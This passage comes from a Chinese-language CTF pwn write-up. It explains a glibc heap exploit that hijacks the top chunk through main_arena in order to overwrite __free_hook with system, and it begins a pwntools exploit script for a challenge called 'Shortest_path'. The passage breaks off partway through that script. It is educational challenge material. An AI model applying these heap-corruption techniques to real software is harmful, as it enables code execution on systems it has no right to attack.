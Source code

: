 修改`top chunk`地址的方法是：
在`__malloc_hook`附近找到满足条件的`chunk size`(`__malloc_hook-0x23`或`__malloc_hook-0x3`)。

写入时构造一个`chunk header`，`size`为`0x70`，将`0x70`的`fastbin`数组位置（`main_arena+48`）指向此伪造的堆头。

如图
![image_1e3ef7h6d10v61al4159f8p46k3m.png-29.9kB][9]

下一次分配即可分配到`main_arena+16`位置， 写入到`main_arena+88`, 写入`__free_hook`上方某个满足`top chunk size`条件的位置地址 ，这样`top chunk`就指向`__free_hook`上方某位置了。

在`__free_hook`上方找一下，`__free_hook-0xb58`位置有一个符合条件的`size`，`size`足够大，满足`top chunk`条件。

![image_1e3efov151ckqmngalh1loi19v713.png-51.4kB][10]

然后不断分配`chunk`，直到`__free_hook`附近。

如分配`0x90`， 对应`chunk size`为`0xa0`, 那`0xb58/0xa0=18`, `0xb58-0xa0*18=24`。 分配完`18个0xa0大小的chunk`后，再分配一个`chunk`，内容写入`24-0x10=8`个字符即到达`__free_hook`位置，写入`system`即可。


## Shortest_path
### 解题思路
读入的 flag 文件一份存在 .bss 段，一份映射在 heap 中，不断申请堆块，读出 flag 内容

![image_1e3eeat3mq56rv9bqm1udtk599.png-279.6kB][11]

### exp
```py
from pwn import *
import sys
import time
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = "info"

filename = './Shortest_path'
elf = ELF(filename)
#libc = ELF('libc.so.6')

if len(sys.argv) == 1:
        p = process(filename)
else:
        p = remote(sys.argv[1], int(sys.argv[2]))

def sla(x, y):
    return p.sendlineafter(x, y)

def add(id, length, name, member):
    sla('---> ', '1')
    sla('ID: ', str(id))
    sla('Price: ', str(0))
    sla('Length: ', str(length))
    sla('Name: \n', name)
    sla('station: ', str(member))

def query(id):
    sla('---> ', '3')
    sla('ID: ', str(id))

if __name__ == "__main__":

    add(0,0x68,'0', 0)
    add(1,0x68,'1', 0)
    add(2,0x68,'2', 0)
```

  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png